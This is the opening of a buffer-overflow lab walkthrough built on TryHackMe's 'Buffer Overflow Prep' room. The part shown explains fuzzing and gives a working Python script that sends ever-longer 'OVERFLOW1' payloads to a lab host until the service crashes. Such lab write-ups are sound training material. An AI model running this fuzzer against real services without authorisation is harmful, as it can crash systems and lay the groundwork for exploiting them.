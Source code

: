```
title: HTB BufferOverflow
```


<img src="https://tryhackme-badges.s3.amazonaws.com/adi7312.png" alt="TryHackMe">

> This walktrough shows how to conduct buffer overflow, as an example I used tasks from "Buffer Overflow Prep" from [TryHackMe](https://tryhackme.com/room/bufferoverflowprep) site.

## **1. Fuzzing**

Fuzzing is sending garbage data to vulnerable entity to crash it and gain information about where (at which byte) the programm crashed.

*fuzzing.py*:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.90.240"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
